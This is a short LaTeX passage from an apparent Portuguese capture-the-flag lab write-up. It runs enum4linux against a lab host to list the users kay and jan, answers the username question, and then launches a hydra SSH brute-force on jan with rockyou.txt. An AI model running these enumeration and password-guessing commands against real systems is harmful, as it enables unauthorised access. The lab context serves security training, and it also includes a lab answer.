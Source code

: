 \documentclass[11pt]{article}
\begin{document}
Utilizamos o enum4linux para encontrar informações sobre os utilizadores.

\begin{figure}[h]
    \includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-13_18_56_52.png}
    \centering
    \caption{enum4linux}
\end{figure}

\begin{verbatim}
enum4linux -a 10.10.165.187 
\end{verbatim}

\begin{lstlisting}
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User kay (Local User)
S-1-22-1-1001 Unix User jan (Local User)
[+] Enumerating users using SID S-1-5-21-2853212168-2008227510-3551253869 and logon username '', password ''
\end{lstlisting}

What is the username?: jan


\subsubsection{Password BruteForce}

Utilizamos o hydra para forçar a entrada do utilizador jan através de uma ligação ssh.
Usamos o fichei \textbf{rockyou.txt} como dicionário de palavras pass.

\begin{verbatim}
hydra -l jan -P rockyou.txt ssh://10.10.165.187
\end{verbatim}
\end{document}
